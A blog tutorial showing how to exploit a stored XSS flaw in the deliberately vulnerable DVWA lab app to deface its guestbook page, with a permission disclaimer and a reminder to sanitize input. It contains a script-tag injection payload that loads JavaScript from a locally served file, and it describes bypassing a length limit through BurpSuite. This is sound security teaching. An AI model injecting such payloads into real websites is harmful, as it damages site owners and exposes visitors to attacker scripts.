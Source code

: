 ```yaml
---
title: How a Hacker Can Deface a Website 1
date: 2024-06-20 12:00:00 -500
categories: [blog, tutorial, Web Penetration Testing]
tags: [cyber, security, exploits, web]
image: /pictures/website_deface/hacker.jpg
---
```





# How a Hacker Can Deface a Website




# Overview


This is the first post in a tutorial series that will help showcase how trivial it can be for a hacker to exploit public-facing web applications. Throughout this series, I will lay out my thought process with hopes that it will not only be beneficial for the reader of this blog, but also for myself as I continue to learn.


All websites and applications used in these tutorials are intentionally vulnerable applications where I have permission to exploit them to my hearts' desire. Do not repeat any of the things I discuss unless you **HAVE PERMISSION**. I am not responsible for any legal issues that you may get into if you do not go about this **ethically**.




# Objectives


My objectives are the following....


- Find and exploit a simple Stored Cross-Site Script (XSS) vulnerability
- Use XSS vulnerability to run script that changes elements in web page








The vulnerable application I am testing today is the [Damn Vulnerable Web Application (DVWA)](https://github.com/digininja/DVWA). DVWA is a PHP/MySQL web application that is very vulnerable. It is a good application to get practice with as many applications in 2024 still utilize PHP and some form of a database in their stack. Instructions for how to set up the application can be found [here](https://www.youtube.com/watch?v=WkyDxNJkgQ4).


For this tutorial, we will be setting our security level to **LOW**. This is important!


# Objective 1: Find and exploit simple XXS


## Methodology


![Beginning Page](/pictures/website_deface/page.PNG)


In the beginning of any pentest we should get familiar with our target. Being that we want to specifically test for XSS, we should start thinking of ways to input a script into the app. Without getting too fancy, the first thing we can test is to see if the application will accept our text modifications. Let's add bold text in our field and see what happens. If you don't already know, we can do this by including our text in
"bold" tags like this...


```html
<b> Test Text </b>
```


![Test Input](/pictures/website_deface/input.PNG)


![Result of Test Input](/pictures/website_deface/result.PNG)


The results from our input seem very promising. The webpage accepted our text modifications! This means that we found a simple XSS. This must imply that we can run a more malicious script other than bolding text should it not? Let's find out. In the meantime we can mark this objective as complete. ✅


# Objective 2: Use XSS to change (DEFACE) website


## Disclaimer
For this goal, it would help to have basic prior knowledge of how web pages are built. We utilize the programming languages HTML, CSS, and Javascript to essentially create our web application, style it, and give its functionality.


Specifically with Javascript, we are able to change out elements in a .html file that we don't even have to access directly.


For the sake of time, I won't go into details on the logic behind this payload creation, but you are welcome to copy it and study it so that you can understand why I decided to use these specific commands.




## Methodology


Before further testing the web application, it is important to build and host a payload that we can call upon in the vulnerable web application. This process is simple.


On my system, I have a directory specifically for payloads. Create a similar directory for yourself and create a "script.js" file inside of it. Also choose an arbitrary image to use in your payload.


![show directory here](/pictures/website_deface/directory-listing.PNG)


After that it is done, get your favorite text editor and add the following lines of code..


![Payload Here](/pictures/website_deface/payload.PNG)


This code should serve as our malicious script that will ultimately deface our target website. It is important to serve this script so that we are able to access it in the web application. This can be done by running the following command in our payload directory...


```bash
python -m http.server 8000
```


This command starts a webserver on port 8000 that we can travel to and access our script. To ensure that the server is up and running correctly, travel to "localhost:8000" in your browser and we should see the files we've created/uploaded.




![directory listing](/pictures/website_deface/directory-listing.PNG)


Once we have confirmed our web server is running, we can begin constructing our input to call our script.


Normally, this can be done by utilizing a script tag to alert ourselves if the script is running. If the malicious script succeeds in being run by the browser the website should be defaced. Here's our custom input...


```js
<script src="localhost:8000/script.js">alert(1);</script>


```
Attempting to insert this into the input field we see that there seems to be a character limit, which doesn't allow us to insert our custom input. What should we do next?


It is important to stay persistent when pentesting as you may have to sometimes think outside the box to achieve your goal. One idea I had when coming across this obstacle was to utilize something that would allow me to send my own requests to the application without being bounded by a character limit. Luckily there is a program called [BurpSuite](https://portswigger.net/burp) that allows me to do just that.


Once again, I won't go into details of how to set up a BurpSuite proxy to send requests to the web application (This can be shown in another tutorial). For the purpose of this tutorial I will only show how it can be utilized to send requests to our webpage.


After setting things up properly we can directly submit a request to the input field. This is what it looks like in practice.




As you can see, the highlighted message field is where we build our custom message to send the application. This is the custom input we attempted previously, just with the special characters encoded.


After sending the request, confirm that it was successful by looking at the response sent from the web application. If you received a *200 OK*, then you should be in the clear. Let's travel back to our site to see if anything happened.


![PWNED](/pictures/website_deface/pwned.PNG)


**Boom!**


Traveling back to our site we see that we were able to successfully deface it! Now anytime a user happens to travel to the page shown above, they will be greeted with our custom payload. Looks like this objective is complete. ✅






# Key Takeaways


As you can see, it is quite trivial to deface a website that has low to no security. Some key takeaways from this tutorial are...


1. *ALWAYS* sanitize user input no matter what.
2. Test any web application you create for basic vulnerabilities such as these.
3. For security researchers, stay persistent and don't give up. Finding bugs gets easier over time.




Keep hacking 💯











